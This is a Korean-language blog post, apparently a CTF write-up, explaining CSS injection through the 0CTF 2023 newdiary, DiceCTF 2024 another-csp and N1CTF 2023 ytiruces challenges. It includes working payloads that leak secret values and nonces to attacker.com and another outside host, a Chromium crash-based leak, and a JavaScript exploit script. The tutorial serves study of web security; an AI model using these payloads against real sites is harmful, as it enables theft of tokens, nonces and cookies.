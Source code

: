 ```yaml
---
title: CSS injection
description: 다양한 CSS injection을 배워봅시다.
# author: 임예준(Burnnnnny)
date: 2024-10-14 02:17:33 +0900
tags: [tech, Web]
categories: [Tech, Web, CTF]
comments: false
math: true
mermaid: false
pin: false
---
```


## 목차
1. CSS injection
2. CSS Attribute Selector
3. 0CTF 2023-newdiary
4. Dice CTF 2024-another-csp
5. N1CTF 2023-ytiruces
6. comment
7. Reference

---

<br>
안녕하세요! Knights of the SPACE의 멤버로 활동하고 있는 임예준(Burnnnnny)입니다.

Client side 기법 중 하나인 CSS injection에 대해 알아보도록 하겠습니다.

이번에는 CSS injection에 대한 기본적인 개념 설명과 CTF 문제로 알아보는 다양한 CSS injection 기법을 소개하도록 하겠습니다.

### 배경지식
CSS injection에 대한 기본적인 개념을 간단히 설명하긴 하지만 CSS injection에 관련된 CTF나 워게임 풀이 경험이 있다면 해당 문서 내용을 이해하는 데 도움이 됩니다.

---
### CSS injection
CSS injection은 웹페이지에 임의의 CSS 구문을 삽입하거나 <style> 태그를 사용하여 악의적인 스타일을 주입하는 공격 기법을 말합니다.

보통 HTML을 주입할 수 있으나 CSP(Content Security Policy)에 의해 JavaScript를 사용할 수 없는 경우나 DOMPurify로 인해 위험한 태그들이 sanitize 됐을 때 CSS로 악의적인 행동을 수행할 수 있습니다.

또한 CSS는 외부 리소스를 불러오는 기능을 제공하기 때문에 외부 서버로 요청을 보낼 수 있습니다. 

> DOMPurify는 기본적으로 독립된 <style> 태그는 sanitize하지만, 다른 태그 내부에 중첩된 <style> 태그는 sanitize하지 않습니다.

![DOMPurify Example 1](/assets/img/CSS_injection/1.png){: width="60%" style="display: block; margin: 0 auto 25px auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}

![DOMPurify Example 2](/assets/img/CSS_injection/2.png){: width="60%" style="display: block; margin: 0 auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}


---

### CSS 특성 선택자

CSS 특성 선택자는 요소의 특성을 선택할 수 있는 기능을 제공합니다. 
<br>

| 구문 | 설명 |
|------|------|
| `[attr]` | `attr` 이라는 이름의 특성을 가진 요소를 선택합니다. |
| `[attr=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. |
| `[attr~=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. `attr` 특성은 공백으로 구분한 여러 개의 값을 가지고 있을 수 있습니다. |
| `[attr^=value]` | `attr` 이라는 특성값을 가지고 있으며, 접두사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
| `[attr$=value]` | `attr` 이라는 특성값을 가지고 있으며, 접미사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
|  `[attr*=value]` | `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 이 요소를 선택합니다. |



CSS injection은 기본적으로 CSS 특성 선택자를 이용하여 조건이 맞을 경우에 외부서버로 요청을 보내 HTML요소의 값을 유출합니다.  

---

#### tip!

CTF 문제를 풀 때 많은 참가자들이 `[attr^=value]` 선택자만을 사용하여 CSS injection을 수행합니다.

이 방식은 각 문자를 하나씩 유출해야 하므로, 이론상 (사용 가능한 문자 수 X 유출하려는 요소의 데이터 길이)만큼의 요청이 필요해 익스플로잇을 하는데 많은 시간이 걸립니다.

하지만 더욱 효율적인 방법이 있습니다!

1. `[attr$=value]` 선택자 활용: 
   접두사(`^`)뿐만 아니라 접미사(`$`)도 함께 유출하면 필요한 요청 횟수를 절반으로 줄일 수 있습니다.

2. 병렬 요청 활용: 
   여러 선택자를 한 번에 요청하여 익스플로잇 시간을 대폭 단축할 수 있습니다. 

**코드예시**
```css
<style>
input[name="secret"][value^="da"] { background: url(https://attacker.com/leak?q=da) }
input[name="secret"][value^="db"] { background: url(https://attacker.com/leak?q=db) }
input[name="secret"][value^="dc"] { background: url(https://attacker.com/leak?q=dc) }
/* ... 중략 ... */
input[name="secret"][value^="dz"] { background: url(https://attacker.com/leak?q=dz) }
</style>

```

이렇게 하면 한 번의 요청으로 여러 가능성을 동시에 테스트할 수 있어, 전체 익스플로잇 과정의 속도를 크게 향상시킬 수 있습니다.

이러한 최적화 기법들을 적절히 조합하면, CSS injection 공격의 효율성을 크게 높일 수 있습니다.

---
### 0CTF 2023-newdiary
2023년 0CTF에서 출제된 newdiary라는 문제와 함께 일명 **'One-shot CSS injection'**을 설명하도록 하겠습니다. 

**'One-shot CSS injection'**은 이름처럼 유출하고자 하는 데이터를 한번에 유출하는 기법입니다. 


전체 풀이 설명보단 원리를 위주로 설명할 예정이니 전체 풀이가 궁금하신 분들은 Reference를 참고해주시면 됩니다.

해당 문제의 소스코드가 궁금하신 분은 [ctf-archives](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)깃허브에서 소스코드를 확인해 보실 수 있습니다. 

newdiary는 innerHTML을 사용하여 DOM 기반 XSS가 가능하며, 이를 통해 FLAG가 담긴 쿠키를 탈취하는 문제입니다.

그러나 
```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```
다음과 같이 CSP에 `nonce`가 걸려있었고 `nonce`의 조합이 `a-zA-Z0-9`이며 32자 길이고 각 요청마다 `nonce`가 바뀝니다. 

그러나 `unsafe-inline`으로 인해 `<style>`태그가 사용이 가능하고 `unpkg.com`에서 파일을 업로드해 외부 CSS 사용이 가능합니다.  

그리고 `<meta>`태그내에 `nonce`가 있기 때문에 CSS로 `nonce`를 유출할 수 있습니다.

그럼 어떻게 한 번의 CSS injection 요청으로 nonce를 유출한 뒤 XSS를 통해 쿠키를 얻을 수 있을까요?

문제를 푸는데 가장 중요한 개념은 `[attr*=value]` 입니다.  

`[attr*=value]`는 `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 

이 요소를 선택하는 CSS 특성선택자입니다. 

먼저 텍스트 조각들을 각각 3개의 문자를 포함하는 많은 작은 부분 문자열로 나눕니다. 

**코드예시**
```css
script[nonce*='aaa']{ --aaa: url('http://attacker.com/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://attacker.com/leak?x=aab'); }
script[nonce*='aac']{ --aac: url('http://attacker.com/leak?x=aac'); }
script[nonce*='aad']{ --aad: url('http://attacker.com/leak?x=aad'); }
script[nonce*='aae']{ --aae: url('http://attacker.com/leak?x=aae'); }
script[nonce*='aaf']{ --aaf: url('http://attacker.com/leak?x=aaf'); }
script[nonce*='aag']{ --aag: url('http://attacker.com/leak?x=aag'); }
script[nonce*='aah']{ --aah: url('http://attacker.com/leak?x=aah'); }
script[nonce*='aai']{ --aai: url('http://attacker.com/leak?x=aai'); }
script[nonce*='aaj']{ --aaj: url('http://attacker.com/leak?x=aaj'); }
script[nonce*='aak']{ --aak: url('http://attacker.com/leak?x=aak'); }

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
  )
```
`-webkit-cross-fade`를 사용하는 것은 여러 이미지를 로드하기 위함입니다. 

`nonce`를 예를 들어 `hspace`라고 가정해보겠습니다.

- ?x=hsp
- ?x=spa
- ?x=pac
- ?x=ace

다음과 같이 서버가 요청을 받을 겁니다. 

그러면 일부 문자가 겹쳐 규칙에 따라 결합하면 전체 `nonce`를 얻을 수 있습니다. 

해당 문제에 쓰인 기법을 직접 테스트해보고 싶으신 분들은 [sCSSLeak](https://github.com/ixSly/sCSSLeak)에서 git clone 한 뒤 테스트 해보실 수 있습니다. 


**'One-shot CSS injection'**은 특정 경우에서만 사용가능하지만 한번에 데이터전체를 유출한다는 점에서

제가 위에서 설명한 tip보다 훨씬 강력한 기법입니다. 

---

### Dice CTF 2024-another-csp
2024년 Dice CTF에서 출제된 another-csp라는 문제와 함께 Chromium Crash로 정보를 유출하는 방법을 설명하도록 하겠습니다.

해당 문제의 소스코드가 궁금하신 분은 [dicegang](https://github.com/dicegang/dicectf-quals-2024-challenges/tree/main/web/another-csp)깃허브에서 소스코드를 확인해 보실 수 있습니다. 


소스코드를 간단히 설명하자면 봇이 현재 실행중인지 아닌지를 확인할 수 있으며 문제서버의 token을 안다면 FLAG를 얻을 수 있습니다.


#### index.html
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>another-csp</title>
	<meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline'; style-src 'unsafe-inline'">
</head>
<body>
	<iframe id="sandbox" name="sandbox" sandbox></iframe>
</body>
<script>
	document.getElementById('form').onsubmit = e => {
		e.preventDefault();
		const code = document.getElementById('code').value;
		const token = localStorage.getItem('token') ?? '0'.repeat(6);
		const content = `<h1 data-token="${token}">${token}</h1>${code}`;
		document.getElementById('sandbox').srcdoc = content;
	}
</script>
</html>
```
`iframe`의 sandbox와 CSP또한 `default-src 'none';`으로 상당히 엄격하게 설정되어있는 것을 확인할 수 있습니다. 

sandbox때문에 javaScript도 쓸 수 없으면서 
보통의 CSS injection은 `img-src`나 `font-src` CSP가 허용된 경우 외부에 요청을 보내 유출하지만 CSP가 `default-src 'none'`으로 외부로는 요청보내기 어렵습니다. 


해당 문제를 푸는 방법은 무거운 CSS를 적용하여 브라우저의 크래시 발생 여부로 token을 유출하는 문제입니다.

[CSS:Using a color made with color-mix in relative color syntax causes the tab to crash with a SIGILL](https://issues.chromium.org/issues/41490764)

해당 버그를 이용하여 크래시를 발생시킵니다. 

```html
<style>
  h1[data-token^="a"] {
    --c1: color-mix(in srgb, blue 50%, red);
    --c2: srgb(from var(--c1) r g b);
    background-color: var(--c2);
  }
</style>
```
혼합색상을 사용하여 `data-token`이 접두사로 일치한다면 브라우저 오류를 일으켜, 웹페이지가 로드되는 시간을 길게하여 브라우저 상태를 파악해 token을 유출합니다. 

그런데 해당 코드는 현재 브라우저에서는 패치된듯 보이고 변수를 중첩하여 생성하는 CSS는 현재 크로미움 브라우저(버전 129.0.6668.101)에서도 크래시가 발생하는 모습을 볼 수 있습니다. 


**코드예시**
```html
<h1 data-token="abcd123">abcd123</h1>

<style>
   html:has([data-token^="a"]) {
      --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
      --b: var(--a),var(--a),var(--a),var(--a),var(--a);
      --c: var(--b),var(--b),var(--b),var(--b),var(--b);
      --d: var(--c),var(--c),var(--c),var(--c),var(--c);
      --e: var(--d),var(--d),var(--d),var(--d),var(--d);
      --f: var(--e),var(--e),var(--e),var(--e),var(--e);
      --g: var(--f),var(--f),var(--f),var(--f),var(--f);
  }
  *{
    background-image: var(--g)
  }
</style>
```
직접 브라우저에서 실행시 아래 사진과 같이 STATUS_STACK_OVERFLOW 오류가 발생한 모습을 볼 수 있습니다. 

![3](/assets/img/CSS_injection/3.png)


CSS injection이 가능하지만 CSP로 인해 외부 요청이 막혔을 때도 정보를 유출할 수 있다는 점에서 흥미로운 기법이라고 생각합니다

---

### N1CTF 2023-ytiruces

2023년 N1CTF에서 출제된 ytiruces라는 문제와 함께 다른 페이지의 정보를 유출하는 공격 기법인 **webVTT cue XS-Leak**을 설명하도록 하겠습니다.

해당 문제의 전체 소스코드가 궁금하신 분은 [Nu1LCTF](https://github.com/Nu1LCTF/n1ctf-2023/tree/main/web/ytiruces) 깃허브에서 확인해 보실 수 있습니다. 

**webVTT cue XS-Leak**은 HTML과 CSS를 함께 주입하면서 기존의 CSS injection과 달리 공격 벡터가 다른 경로에 위치한 정보를 유출하는 기법입니다. 

#### app.js

```js
const express = require('express');
const cookieParser = require('cookie-parser');
const app = express();
const port = 3000;

app.use(cookieParser());
app.use('/static', express.static('static'))
app.use((req, res, next) => {
    res.set("X-Frame-Options", "DENY");
    res.set(
      "Content-Security-Policy", 
      "style-src 'unsafe-inline'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"
    );
    next();
  });
app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

app.get('/flag', (req, res) => {
    res.type('text/plain');
    const name = req.query.name || 'admin';
    if (typeof name !== 'string' || name.length > 32 || /[^\x00-\x7f]/.test(name)) {
        res.send('Invalid name!');
        return;
    }
    const flag = req.cookies.flag || 'n1ctf{[A-Za-z]+}';
    res.send(`${name} ${flag}`);
});

app.listen(port, '0.0.0.0', () => {
    console.log(`App listening at http://0.0.0.0:${port}`);
});
```

app.js코드의 CSP를 보면 DOMPurify와 inline-css가 허용되어 CSS injection이 가능합니다.

그리고 '/flag' 경로에서 쿼리값의 타입,길이,아스키범위 검사 이후 `${name} ${flag}` 이런 형태로 `text/plain` MIME type 응답을 반환합니다.   


#### index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>YTIRUCES</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"></script>
    <script src="/static/init.js"></script>
</head>
<body>
    <header>
        <h1>YTIRUCES</h1>
    </header>
    <nav>
        <a href="#home">Home</a>
    </nav>
    <div class="container">
        <article>
          loading...
        </article>
    </div>
</body>
</html>
```

#### /static/init.js
```js
window.addEventListener('load', function() {
    var params = new URLSearchParams(window.location.search);
    var danger_content = params.get('content') || "!dlrow olleH";
    var content = DOMPurify.sanitize(danger_content);
    document.querySelector('article').innerHTML = content;
});
```

init.js를 보면 메인 페이지에서 DOMPurify에 의해 XSS가 막혔지만 HTML injection이 가능합니다.

그럼 이제 어떻게 FLAG를 유출할 수 있을까요?

여기서 필요한 배경지식은 WebVTT, `<track>` 태그, `::cue`라는 CSS 의사요소입니다.

**배경지식**
>WebVTT는 비디오나 오디오와 함께 표시되는 텍스트 트랙을 정의하는 파일 형식입니다. 주로 자막, 캡션, 챕터 등을 표현하는 데 사용됩니다.

>`::cue`는 WebVTT 큐의 텍스트 콘텐츠를 스타일링하는 데 사용되는 CSS 의사 요소입니다. 이를 통해 자막이나 캡션의 스타일을 세밀하게 제어할 수 있습니다.

>`<track>` 태그는 HTML5 `<video>` 또는 `<audio>` 요소의 자식으로 사용되며, 외부 텍스트 트랙 파일(예: WebVTT 파일)을 지정합니다. 이를 통해 비디오나 오디오에 자막, 캡션 등을 추가할 수 있습니다.

해당 배경지식들은 웹에서 비디오나 오디오의 자막에 쓰이는 개념들입니다.


푸는 방법을 간단히 요약하자면 외부에서 `<video>`를 가져온 뒤 <track> 태그로 '/flag'경로를 webVTT texttrack으로 처리하고 `::cue`로 CSS 선택자로 조건이 맞는 FLAG를 공격자 사이트로 유출하는 기법입니다. 

먼저 '/flag'경로는 임의 문자열을 FLAG앞에 위치할 수 있습니다. 그리고 개행 또한 가능합니다.

그럼 공격 방법을 단계별로 설명하겠습니다:

1. 외부 비디오 소스를 참조하는 `<video>` 태그를 삽입합니다.
2. `<video>`태그 내부에 `<track>` 태그를 추가합니다.
3. `<track>` 태그의 src 속성을 '/flag' 경로로 설정하고, 추가 파라미터를 포함시킵니다.
4. 이 파라미터에 WebVTT 형식의 헤더와 타임스탬프를 포함시켜 '/flag' 경로의 응답을 WebVTT 파일로 해석되도록 합니다.

이를 구현한 페이로드는 다음과 같습니다:

```html
<video muted autoplay controls src="//attacker.com/a.mp3">
  <track default src="/flag?name=WEBVTT%0d00:00.000-->00:30.000%0d<v"/>
  <style>CSS injection payload...</style>
</video>
```

그리고 `<stlye>`태그안에 `::cue`로 FLAG를 CSS injection으로 유출합니다.

#### exploit
```js
let base = 'https://ytiruces.ctfpunk.com';
let base2 = '/?content=%3Cvideo%20muted%20autoplay%20controls%20src=//o.cal1.cn/s.mp3%3E%3Ctrack%20default%20src=%22/flag?name=WEBVTT%250d00:00.000--%3E00:30.000%250d%3Cv%22/%3E%3Cstyle%3E$CSS$%3C/style%3E%3C/video%3E';

let genCSS = (known,u)=>{
    let pool = [
       [...'abcdefghi'], 
       [...'jklmnopqr'], 
       [...'stuvwxyz'], 
       [...'ABCDEFGHI'], 
       [...'JKLMNOPQR'], 
       [...'STUVWXYZ}'],
   ];
    let ret = '';
    for (let i of pool[u]) {
        ret += `::cue(v[voice^=%22${known}${i}%22]){background:url(//o.cal1.cn/?${known}${i})}`
    }
    return ret
}

let known = 'n1ctf{';

console.log([
    base + base2.replace('$CSS$', genCSS(known, 0)),
    base + base2.replace('$CSS$', genCSS(known, 1)),
    base + base2.replace('$CSS$', genCSS(known, 2)),
    base + base2.replace('$CSS$', genCSS(known, 3)),
    base + base2.replace('$CSS$', genCSS(known, 4)),
    base + base2.replace('$CSS$', genCSS(known, 5)), 
])

```


참고로 거의 비슷한 기법이 ASIS CTF 2021 본선에서 classic이란 문제로 등장했었습니다.
- [ASIS 2021 final web classic](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/ASIS/2021/Finals/web/classic/stuff) 

- [parrot409-poc for classic](https://gist.github.com/parrot409/34194eb82b32e36d2a96d0bf3115a901)

상황자체는 조금 다르지만 기법 자체는 비슷해 보입니다. 

여담이지만 저의 경우 2024년에 진행한 YISF(순천향대 청소년 정보보호 페스티벌) 예선에 해당 기법을 이용한 문제를 출제하였습니다.

[cinema](https://dreamhack.io/wargame/challenges/1380)란 문제로, 현재 드림핵에 포팅되어 있으니 기법을 이해하셨으면 직접 한번 풀어보는 것을 추천하겠습니다.

---

### comment
CTF에서 나온 새롭고 창의적인 기법들을 이해한 뒤 문서로 정리하는 작업이 힘들지만 재밌었습니다.

그리고 CSS injection은 저 개인적으로 JavaScript없이 Leak한다는 점에서 흥미로운 기법이라고 생각합니다.
 
이번에 작성한 문서가 CSS injection을 공부하시려는 분들에게 도움이 되길 바랍니다.🙂

---

### Reference
- [DOMPurify 3.1.7 "Glow Stick"](https://cure53.de/purify)
- [mdn-css-Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [CSS Injection: Attacking with Just CSS (Part 1)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)
- [CTF-archives-0CTF 2023-newdiary](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)
- [salvatore-abello-newdiary](https://github.com/salvatore-abello/CTF-Writeups/tree/main/0ctf%20-%202023/newdiary#css-exploit)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#leaking-a-blob-url)
- [ixSly-sCSSLeak](https://github.com/ixSly/sCSSLeak)
- [huli-0CTF 2023 Writeups](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/)
- [huli-DiceCTF 2024 Writeup](https://blog.huli.tw/2024/02/12/en/dicectf-2024-writeup/#webx2fsafestlist-2-solves)
- [0xOne - 2024 Dice CTF Write up \[Web\]](https://one3147.tistory.com/77)
- [huli-A Bunch of Web and XSS Challenges](https://blog.huli.tw/2023/12/03/en/xss-and-web-challenges/)
- [WebVTT_API](https://developer.mozilla.org/en-US/docs/Web/API/WebVTT_API)
- [N1CTF复现游记](https://dem0dem0.top/2023/10/20/n1ctf2023/)